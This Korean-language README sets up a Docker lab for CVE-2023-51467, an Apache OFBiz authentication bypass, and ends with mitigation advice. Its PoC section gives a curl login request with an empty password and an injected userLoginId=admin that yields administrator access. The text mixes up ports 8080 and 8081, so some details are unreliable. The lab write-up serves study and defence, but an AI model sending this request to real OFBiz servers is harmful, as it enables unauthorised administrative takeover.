

# CVE-2023-51467 - Apache OFBiz 인증 우회 취약점

## 요약
- CVE-2023-51467은 Apache OFBiz 18.12.06 이하 버전에서 발견된 인증 우회 취약점입니다.
- 로그인 처리 과정에서 사용자 입력 검증이 미흡하여, 공격자가 `userLoginId` 파라미터를 조작해 인증 없이 관리자 권한을 획득할 수 있습니다.
- 이로 인해 인증 없이 관리자 페이지에 접근할 수 있습니다.

---

## 환경 구성 및 실행

1. Dockerfile과 docker-compose.yaml 파일을 준비합니다.
2. 터미널에서 해당 디렉토리로 이동하여 다음 명령어를 실행합니다.

```bash
docker-compose build
docker-compose up -d
```
(Dockerfile 빌드 과정 중 Apache OFBiz 소스 코드를 Gradle로 컴파일하는 단계가 포함되어 있어, 최초 빌드 시 시간이 다소 소요되었습니다. 이후 캐시를 활용하여 재실행 속도는 향상됩니다.)

3. 브라우저를 통해 ```bash http://localhost:8080``` 접속

## PoC 
취약한 로그인 처리 과정을 우회하기 위해 아래와 같은 요청을 보냅니다.

```bash
curl -v -d "USERNAME=admin&PASSWORD=&JavaScriptEnabled=Y&userLoginId=admin" http://localhost:8081/control/login
```

공격 흐름 설명
- USERNAME=admin으로 로그인 시도
- PASSWORD= 로 비워둬서 비밀번호 없이 요청
- userLoginId = admin 추가하여 세션에 직접 관리자 계정을 주입
- 서버가 정상 인증 체크 없이 로그인 세션 생성

## 결과
- 정상적으로 curl 요청을 보내면 302 Redirect 응답과 함께 세션이 생성됩니다
- 이후 브라우저로 ```bash http://localhost:8081 ``` 접속 시 관리자 권한으로 접근 가능해집니다


## 정리
해당 취약점을 통해 공격자는 관리자로 로그인하여 인가되지 않은 권한을 획득할 수 있다. 

이러한 상황을 방지하기 위해, 로그인 처리 로직에서는 입력값에 대해 철저한 검증을 수행하고, 세션 생성 시 사용자 인증 절차를 반드시 통과하도록 서버 측에서 강제해야 한다. 또한, 최신 보안 패치가 적용된 소프트웨어 버전으로 시스템을 주기적으로 업데이트하는 것이 중요하다.